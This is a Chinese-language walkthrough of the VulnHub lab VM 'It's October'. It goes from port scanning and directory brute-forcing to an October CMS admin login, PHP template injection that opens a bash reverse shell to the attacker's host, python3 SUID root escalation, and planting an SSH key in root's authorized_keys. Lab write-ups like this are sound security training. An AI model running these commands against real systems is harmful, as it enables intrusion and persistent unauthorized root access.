# It’s_October1-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/its-october-1,460/

**Description**

Welcome to "It’s October"

This boot to root VM is designed for testing your pentesting skills and concepts. It consists of some well known things but it encourages you to use the functionalities rather than vulnerabilities of target.

Goal: Get the root flag of the target.

Difficulty: Easy/Medium Level

Need hints? Twitter @akankshavermasv

DHCP is enabled

Your feedback is really valuable for me! Twitter @akankshavermasv

Was there something that you didn’t like about this VM?

Please let me know so that I can make more interesting challenges in the future.

Good Luck..!!!

**知识点**
- october 模板注入
- 写 ssh 密钥

**实验环境**

`环境仅供参考`

- VirtualBox 图形用户界面 版本 6.1.2 r135662 (Qt5.6.2)
- kali : 桥接模式,192.168.1.248
- 靶机 : 桥接模式,192.168.1.249

---

# 前期-信息收集

> 这个靶机环境只能用 VirtualBox ,vmware 中打开怎么都获取不到 IP,说是 DHCP enable,单独配了个 DHCP 服务器都获取不到 IP。😒

靶机开机后会显示当前 IP,直接进行端口扫描

```bash
nmap -T5 -A -v -p- --min-rate=5000 192.168.1.249
```



可以看到开了 ssh,2个 web，还有一个 mysql 数据库

分别看一下 80 和 8080



在 8080 的 html 源码中发现一处注释




用这个登陆 ssh 和 mysql 试试


只允许密钥登陆


mysql 无法连接,估计是其他的凭证,接下来对这 2 个端口目录爆破试试,工具使用 [ffuf](https://github.com/ffuf/ffuf)、字典使用 [AboutSecurity](https://github.com/ffffffff0x/AboutSecurity/)

```bash
./ffuf -c -mc 200,301,302 -t 500 -w AboutSecurity/Dic/Web/Directory/main.txt -u http://192.168.1.249/FUZZ
```



/backend 目录存在 302 跳转,访问看看


是个后台页面,wappalyzer 插件识别出是 october-cms



尝试用之前的账号密码登陆,进入后台



---

# 中期-漏洞利用

进后台后翻了一下,没有找到相关的 flag 或其他提示,版本号也没找到,看来是需要利用漏洞 get shell 了,searchsploit 搜下 october-cms
```bash
searchsploit octobercms
```



2 个 XSS 怎么用啊🤣，后来才发现是我搜索姿势不对

```bash
searchsploit october cms
```



要加个空格我是服气的..接下来访问搜出的这几个漏洞。

**October CMS - Upload Protection Bypass Code Execution (Metasploit)**

```bash
msfconsole
use exploit/multi/http/october_upload_bypass_exec
set rhosts 192.168.1.249
set lhost 192.168.1.248
set password adminadmin2
```



利用完毕但未回弹成功,那么换下一个

**October CMS 1.0.412 - Multiple Vulnerabilities**

- https://www.exploit-db.com/exploits/41936

大致描述了 bypass 上传和上传 .htaccess 的利用方法,还有资产管理中的 php 代码执行,既然 msf 没成功那就手动试试

- **bypass 上传**

    意思是黑名单中没有包含 php5 后缀的文件

    

    看来不好利用这个

- **.htaccess 上传**

    不出所料,同样无法上传

    

- **PHP code execution via asset management**

    本质上还是 php5 后缀绕过,还是无法利用

    

---

后来搜了一下在新建页面时可以在模板中注入 php 代码

```php
function onstart(){
              exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.1.248/4444 0>&1'";
}
```



kali 监听
```bash
nc -lvvp 4444
```

使用 curl 调用 shell
```bash
curl -vv http://192.168.1.249/test
```

成功回弹 shell


---

# 后期-权限提升

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
id
```



www 的权限,接下来找找提权的点
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```



python3.7 具有 suid 位
```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
id
```


```bash
cd /root
cat proof.txt
```



此时可以直接看到 proof.txt 文件。

**ssh**

这里可以通过写公钥到 .ssh 目录下来进行 ssh 登陆

攻击机
```bash
ssh-keygen -t rsa
cd .ssh
python -m SimpleHTTPServer 8000
```

靶机
```bash
wget http://192.168.1.248:8000/id_rsa.pub
cp id_rsa.pub /root/.ssh/authorized_keys
```

攻击机
```bash
ssh root@192.168.1.249 -i id_rsa
```
